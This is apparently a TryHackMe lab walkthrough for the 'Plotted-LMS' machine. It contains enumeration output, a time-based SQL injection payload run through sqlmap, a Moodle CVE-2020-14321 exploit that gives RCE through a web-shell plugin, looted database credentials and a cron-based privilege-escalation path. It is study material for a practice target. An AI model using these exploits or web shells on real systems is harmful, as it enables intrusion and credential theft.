






<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux (Ubuntu), **Difficulty:** Hard, **Host:** `plottedlms.thm`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Multiple web apps: `:9020/` (troll `user.txt`), `:8820/learn/` a custom **LMS**, `:9020/moodle/` a **Moodle** install.
2. `:9020/moodle` → register a student → **CVE-2020-14321** (Moodle privilege escalation via the *enrol users* form → become Manager/Teacher → install a malicious plugin) → **RCE** as `www-data`.
3. Loot DB configs: `learn/admin/dbcon.php` → `lms_user:LMSItOut@123`; `moodle/config.php` → `moodle_user:MoodleItIs@123`. (The custom LMS `student_signup.php` `firstname` param is also time-based **SQLi**.)
4. Root: a **root cron** runs `rsync /var/log/apache2/m*_access ...$(/bin/date +%m.%d.%Y)` and there's `plot_admin`'s `/home/plot_admin/backup.py` cron, poison the rsync via a crafted log filename / abuse `rsync -e` in the wildcard, or hijack `plot_admin`'s writable backup script → escalate to `plot_admin` → root.

</div>

<div class="callout callout-key">

**Credentials**

- LMS DB: `lms_user` : `LMSItOut@123`
- Moodle DB: `moodle_user` : `MoodleItIs@123`

</div>

---

## Full Walkthrough

Feroxbuster

```bash

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://plottedlms.thm:9020/
 🚀  Threads               │ 15
 📖  Wordlist              │ /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 🔎  Extract Links         │ true
 💲  Extensions            │ [html, php, php5, sh, bin, py, war, aspx, dox, lst, sqlite, txt, js, java, jar]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        1l        1w      104c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        1l        1w      104c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      375l      964w    10918c http://plottedlms.thm:9020/index.html
200      GET       15l       74w     6147c http://plottedlms.thm:9020/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://plottedlms.thm:9020/
200      GET        1l        1w      129c http://plottedlms.thm:9020/user.txt
```

here we found a `user.txt` but that is just a troll.

The real application is located on port `8820`.


Nmap scan

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
873/tcp  open  http    syn-ack Apache httpd 2.4.52 ((Debian))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.52 (Debian)
|_http-title: Apache2 Debian Default Page: It works
8820/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
9020/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

```bash
---------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                            |  Path
---------------------------------------------------------------------------------------------------------- ---------------------------------
Angel Learning Management System 7.3 - 'pdaview.asp' Cross-Site Scripting                                 | asp/webapps/34971.txt
ILIAS Learning Management System 4.3 - SSRF                                                               | multiple/webapps/49148.txt
Ingenium Learning Management System 5.1/6.1 - Reversible Password Hash                                    | multiple/remote/21942.java
Learning Management System 0.1 - Authentication Bypass                                                    | php/webapps/40545.txt
Online Learning Management System 1.0 - 'id' SQL Injection                                                | php/webapps/49326.txt
Online Learning Management System 1.0 - Authentication Bypass                                             | php/webapps/49324.txt
Online Learning Management System 1.0 - Multiple Stored XSS                                               | php/webapps/49325.txt
Online Learning Management System 1.0 - RCE (Authenticated)                                               | php/webapps/49365.py
WordPress Plugin Learning Management System - 'course_id' SQL Injection                                   | php/webapps/43901.txt
---------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We have found multiple `CVE's` for `learning management system`.

After a while of auditing the application I captured the request for the student signup. initially you can not register it will just not work

Here is the post request made to the signup page.

```bash
POST /learn/student_signup.php HTTP/1.1
Host: plottedlms.thm:8820
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 99
Origin: http://plottedlms.thm:8820
Connection: close
Referer: http://plottedlms.thm:8820/learn/signup_student.php
Cookie: PHPSESSID=21m5nd7g1sqigt722lkon9vh2b
DNT: 1
Sec-GPC: 1

username=12345&firstname=yourmom&lastname=lastname&class_id=16&password=password&cpassword=password
```

The server then replies with the following.

```bash
HTTP/1.1 200 OK
Date: Wed, 07 Feb 2024 00:58:52 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 5
Connection: close
Content-Type: text/html; charset=UTF-8

false
```

Then we get an error saying signup failed.

To bypass this we can do the following and edit the request.

```bash
POST /learn/student_signup.php HTTP/1.1
Host: plottedlms.thm:8820
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 99
Origin: http://plottedlms.thm:8820
Connection: close
Referer: http://plottedlms.thm:8820/learn/signup_student.php
Cookie: PHPSESSID=21m5nd7g1sqigt722lkon9vh2b
DNT: 1
Sec-GPC: 1

username=12345&firstname=baphometpwn&lastname=lastname&class_id=16&password=password&cpassword=password
```

Then edit the response.


```bash
HTTP/1.1 200 OK
Date: Wed, 07 Feb 2024 00:59:59 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 5
Connection: close
Content-Type: text/html; charset=UTF-8

true
```

Then we have a successful signup!

request to the dashboard

```bash
GET /learn/dashboard_student.php HTTP/1.1
Host: plottedlms.thm:8820
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://plottedlms.thm:8820/learn/signup_student.php
Cookie: PHPSESSID=21m5nd7g1sqigt722lkon9vh2b
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```

After doing this once more for the demonstration that I have just typed out it does not want to work anymore.

But I have found SQL injection!

```bash
sqlmap -u 'http://plottedlms.thm:8820/learn/student_signup.php' --data="username=123123123&firstname=baphomet&lastname=lastname&class_id=18&password=password&cpassword=password" --threads=10 --dbs --no-cast --batch
```

```bash
[20:04:29] [INFO] resuming back-end DBMS 'mysql' 
[20:04:29] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=poa9jf5kldg...h1sgc66n7m'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: firstname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=123123123&firstname=baphomet' AND (SELECT 2775 FROM (SELECT(SLEEP(5)))FYRI)-- WNGb&lastname=lastname&class_id=18&password=password&cpassword=password
---
[20:04:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (focal or eoan)
web application technology: PHP, Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[20:04:29] [INFO] fetching database names
[20:04:29] [INFO] fetching number of databases
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[20:04:29] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)             
[20:04:33] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[20:04:44] [INFO] retrieved: 
[20:04:49] [INFO] adjusting time delay to 1 second due to good response times
infor
[20:05:15] [ERROR] invalid character detected. retrying..
[20:05:15] [WARNING] increasing time delay to 2 seconds
```

Databases discovered

```bash
available databases [2]:
[*] information_schema
[*] lms
```

```bash
sqlmap -u 'http://plottedlms.thm:8820/learn/student_signup.php' --data="username=123123123&firstname=baphomet&lastname=lastname&class_id=18&password=password&cpassword=password" --threads=10 -D lms --tables --no-cast --batch
```

```bash
GET /learn/dashboard_student.php HTTP/1.1
Host: plottedlms.thm:8820
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://plottedlms.thm:8820/learn/signup_student.php
Cookie: PHPSESSID=21m5nd7g1sqigt722lkon9vh2b
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```

```bash
Database: lms
Table: files
[8 columns]
+-------------+--------------+
| Column      | Type         |
+-------------+--------------+
| class_id    | int          |
| fdatein     | varchar(200) |
| fdesc       | varchar(100) |
| file_id     | int          |
| floc        | varchar(500) |
| fname       | varchar(100) |
| teacher_id  | int          |
| uploaded_by | varchar(100) |
+-------------+--------------+
```

Going back to some enumeration we find the directory `moodle` on `http://plottedlms.thm:9020/moodle/`.



register for an account.

I have found a exploit to escalate privs to Manager then get RCE

https://github.com/HoangKien1020/CVE-2020-14321

```bash
└─[$]> python3 cve202014321.py -url http://plottedlms.thm:9020/moodle -cookie=hq9cg3uuv34q48b97d8f4sh1bo -cmd=id
                           ***CVE 2020 14321*** 
    How to use this PoC script
    Case 1. If you have vaid credentials:
    python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
    Case 2. If you have valid cookie:
    python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir
    
[+] Your target: http://plottedlms.thm:9020/moodle
[+] Logging in to teacher
[+] Teacher logins successfully!
[+] Privilege Escalation To Manager in the course Done!
[+] Maybe RCE via install plugins!
[+] Checking RCE ...
[+] RCE link in here:
http://plottedlms.thm:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```







found sql backup

```bash
└─[$]> unzip sql.bak.zip         
Archive:  sql.bak.zip
[sql.bak.zip] backup.sql password:    
```

There is a password required so lets crack it.

```bash
zip2john sql.bak.zip > hash 
```





wow some real top tier humor...

```bash
* *	* * *	plot_admin /usr/bin/python3 /home/plot_admin/backup.py
* *	* * *	root 	/usr/bin/rsync /var/log/apache2/m*_access /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y); /usr/bin/chown -R plot_admin:plot_admin /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y)

```

Found database credentials

```bash
</html>www-data@plotted-lms:/tmp$ cat /var/www/8820/learn/admin/dbcon.php
<?php
$conn = mysqli_connect('localhost','lms_user','LMSItOut@123','lms') or die(mysqli_error());
?>
```

```bash
╔══════════╣ Analyzing Moodle Files (limit 70)
-rw-r----- 1 www-data www-data 754 Feb  4  2022 /var/www/9020/moodle/config.php
$CFG->dbtype    = 'mysqli';
$CFG->dbhost    = 'localhost';
$CFG->dbuser    = 'moodle_user';
$CFG->dbpass    = 'MoodleItIs@123';
  'dbport' => '',
```

```bash
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/tmp/peas.log
/var/log/kern.log
/var/log/auth.log
/var/log/journal/3912f253066b41309aa793b066f57a2c/system.journal
/var/log/syslog
/home/plot_admin/.logs_backup/moodle_access
/home/plot_admin/.logs_backup/moodle_access.2
/home/plot_admin/.logs_backup/moodle_access.4
/home/plot_admin/.logs_backup/moodle_access.3
/home/plot_admin/.logs_backup/moodle_access.1
/home/plot_admin/.moodle_backup/bf09aeb889f323edb35e84167e1ebbdf74624481
/home/plot_admin/.moodle_backup/d9b6c5aebca47685ef63bc4cc976be6376286ed3
/home/plot_admin/.moodle_backup/warning.txt
/home/plot_admin/.moodle_backup/75c101cb8cb34ea573cd25ac38f8157b1de901b8
/home/plot_admin/.moodle_backup/5f8e911d0da441e36f47c5c46f4393269211ca56
/home/plot_admin/.moodle_backup/0c5190a24c3943966541401c883eacaa20ca20cb
/home/plot_admin/.moodle_backup/8c96a486d5801e0f4ab8c411f561f1c687e1f865
/home/plot_admin/.moodle_backup/da39a3ee5e6b4b0d3255bfef95601890afd80709


╔══════════╣ Checking if runc is available
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/runc-privilege-escalation
runc was found in /usr/bin/runc, you may be able to escalate privileges with it

╔══════════╣ Analyzing Github Files (limit 70)
drwxr-xr-x 2 www-data www-data 4096 Jun 13  2020 /var/www/9020/moodle/.github


-rw-r--r-- 1 root root 105 Jan 31  2022 /var/www/8820/.git
-rw-r--r-- 1 root root 105 Jan 31  2022 /var/www/9020/.git


```

```bash

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
        inet 10.10.133.195  netmask 255.255.0.0  broadcast 10.10.255.255
        inet6 fe80::1b:a1ff:fec1:2b4b  prefixlen 64  scopeid 0x20<link>
        ether 02:1b:a1:c1:2b:4b  txqueuelen 1000  (Ethernet)
        RX packets 2411  bytes 999443 (999.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2131  bytes 922710 (922.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
